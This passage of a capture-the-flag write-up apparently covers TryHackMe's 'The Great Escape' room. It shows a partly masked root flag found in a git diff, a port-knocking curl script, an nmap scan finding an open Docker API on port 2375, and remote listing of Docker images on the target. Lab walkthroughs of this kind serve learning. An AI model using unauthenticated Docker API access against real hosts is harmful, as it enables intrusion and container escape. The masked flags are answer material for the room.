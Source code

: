 ```bash
new file mode 100644
index 0000000..aae8129
--- /dev/null
+++ b/flag.txt
@@ -0,0 +1,3 @@
+You found the root flag, or did you?
+
+THM{********************454b75a10876}
\ No newline at end of file
```

<br>

<p><em>Answer the question below</em></p>

<p>3.1. Find the root flag?<br>
<code>THM{********************454b75a10876}</code></p>

<br>
<br>
<h2>Task 4 . The Great Escape</h2>
<p>You thought you had root. But the root on a docker container isn't all that helpful. Find the secret flag</p>

<br>

```bash
:~/TheGreatEscape# ./e.sh
curl: (7) Failed to connect to xx.xxx.xx.xxx port 42: Connection refused
curl: (7) Failed to connect to xx.xxx.xx.xxx port 1337: Connection refused
curl: (7) Failed to connect to xx.xxx.xx.xxx port 10420: Connection refused
curl: (7) Failed to connect to xx.xxx.xx.xxx port 6969: Connection refused
curl: (7) Failed to connect to xx.xxx.xx.xxx port 63000: Connection refused
```

<br>

```bash
:~/TheGreatEscape# nmap -p 2375 xx.xxx.xx.xxx
...
PORT     STATE SERVICE
2375/tcp open  docker
```

<br>

```bash
:~/TheGreatEscape# docker -H xx.xxx.xx.xxx:2375 images
REPOSITORY                                    TAG                 IMAGE ID            CREATED             SIZE
exif-api-dev                                  latest              4084cb55e1c7        4 years ago         214MB
exif-api                                      latest              923c5821b907        4 years ago         163MB
frontend                                      latest              577f9da1362e        4 years ago         138MB
endlessh                                      latest              7bde5182dc5e        4 years ago         5.67MB
nginx                                         latest              ae2feff98a0c        4 years ago         133MB
debian                                        10-slim             4a9cd57610d6        4 years ago         69.2MB
registry.access.redhat.com/ubi8/ubi-minimal   8.3                 7331d26c1fdf        4 years ago         103MB
alpine                                        3.9                 78a2ce922f86        5 years ago         5.55MB
```
